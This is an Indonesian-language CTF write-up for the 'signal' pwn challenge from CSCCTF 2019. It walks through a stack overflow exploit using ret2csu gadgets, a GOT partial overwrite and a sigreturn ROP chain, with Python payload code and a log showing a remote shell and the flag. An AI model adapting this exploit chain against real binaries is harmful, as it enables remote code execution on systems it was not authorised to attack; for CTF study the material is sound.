 # signal


## Analisa


Diberikan program dengan proteksi:
```
$ file signal; checksec signal
signal: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 3.2.0, BuildID[sha1]=94bc0b46110ac301a681697ba5167afa696c2144, not stripped
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/signal/signal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
Bug merupakan stack bof pada fungsi `main`.


## Eksploitasi


Ketiadaan fungsi print membuat eksploitasi menjadi sulit. Tetapi masih ada fungsi `__libc_csu_init` yang dapat kita gunakan (gadget+teknik ini disebut ***ret2csu***):
```
00000000004006f0 <__libc_csu_init>:
  ...
  400730:	4c 89 fa             	mov    rdx,r15
  400733:	4c 89 f6             	mov    rsi,r14
  400736:	44 89 ef             	mov    edi,r13d
  400739:	41 ff 14 dc          	call   QWORD PTR [r12+rbx*8]
  40073d:	48 83 c3 01          	add    rbx,0x1
  400741:	48 39 dd             	cmp    rbp,rbx
  400744:	75 ea                	jne    400730 <__libc_csu_init+0x40>
  400746:	48 83 c4 08          	add    rsp,0x8
  40074a:	5b                   	pop    rbx
  40074b:	5d                   	pop    rbp
  40074c:	41 5c                	pop    r12
  40074e:	41 5d                	pop    r13
  400750:	41 5e                	pop    r14
  400752:	41 5f                	pop    r15
  400754:	c3                   	ret    

gef> x/3i 0x400751
   0x400751 <__libc_csu_init+97>:	pop    rsi
   0x400752 <__libc_csu_init+98>:	pop    r15
   0x400754 <__libc_csu_init+100>:	ret    
gef> x/2i 0x400753
   0x400753 <__libc_csu_init+99>:	pop    rdi
   0x400754 <__libc_csu_init+100>:	ret    
```


Wrapper untuk ret2csu:
```Python
def call_ptr(target,edi,rsi,rdx,rbx_after=0,rbp_after=0,r12_after=0,r13_after=0,r14_after=0,r15_after=0):
	payload = p64(0x40074a)
	payload += p64(0)
	payload += p64(1)
	payload += p64(target)
	payload += p64(edi)
	payload += p64(rsi)
	payload += p64(rdx)
	payload += p64(0x400730)
	payload += p64(0) # add rsp, 8
	payload += p64(rbx_after)
	payload += p64(rbp_after)
	payload += p64(r12_after)
	payload += p64(r13_after)
	payload += p64(r14_after)
	payload += p64(r15_after)
	return payload
```



Kita dapat memanggil fungsi **read** dan **alarm** melalui GOT dengan semua parameter (rdi,rsi,rdx) dibawah kendali kita melalui *0x40074a* dan *0x400730* . Tujuan diberikan libc adalah agar peserta dapat melihat LSB dari fungsi libc **read** dan **alarm**. Berikut disassemblynya:
```
gef> x/2i alarm
   0x7f9a9e3d4840 <alarm>:	mov    eax,0x25
   0x7f9a9e3d4845 <alarm+5>:	syscall 
gef> x/8i read
   ...
   0x7f9a9e40007d <__GI___libc_read+13>:	xor    eax,eax
   0x7f9a9e40007f <__GI___libc_read+15>:	syscall
   ...
```


Jika kita melakukan overwrite LSB dari GOT **alarm**, kita dapat melakukan arbitrary syscall dengan arbitrary parameter. Artinya kita bisa langsung mengeksekusi `execve("/bin/sh")` di program tanpa leak.
```Python
payload = call_ptr(exe.got["read"],0,exe.got["read"],1,rbp_after=0x601590)
```


Intended solution adalah dengan menggunakan syscall ini untuk melakukan `Sigreturn ROP`. Pertama-tama untuk set register `rax`, kita dapat menggunakan gadget:
```
gef> x/3i 0x4006db
   0x4006db <main+57>:	mov    rax,QWORD PTR [rbp-0x108]
   0x4006e2 <main+64>:	leave  
   0x4006e3 <main+65>:	ret 
```


set register `rbp` ke `.bss` dan kita bisa mengambil nilai 0. Selanjutnya lakukan read melalui ret2csu untuk set register rax ke 15 (sigreturn).

```Python
payload += p64(0x4006db) # mov rax, [rbp-0x108]; leave; ret
payload += call_ptr(exe.got["read"],0,0x601910,15,rbp_after=0x601610)
payload += p64(exe.plt["read"]) # ... ; syscall; ...; ret
frame = SigreturnFrame()
frame.rax = 0x3b # execve
frame.rdi = 0x601910 # "/bin/sh"
frame.rsp = 0x601a10
frame.rip = exe.plt["read"] # syscall
payload += str(frame)
```
Dalam frame sigreturn (tersedia melalui modul [pwntools](https://github.com/Gallopsled/pwntools)) ini, kita set parameter yang diperlukan (sisanya akan dinullkan).


Output script:
```
$ python exploit.py go
[*] '/home/tempest/projects/cscctf/2019/qual/pwn/signal/signal'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to signal.problem.cscctf.com on port 11112: Done
[*] Switching to interactive mode
$ cat /home/signal/flag
CCC{SsSSssSSsss55sS5SsssssssssSR0P}
$ 
[*] Closed connection to signal.problem.cscctf.com port 11112
```
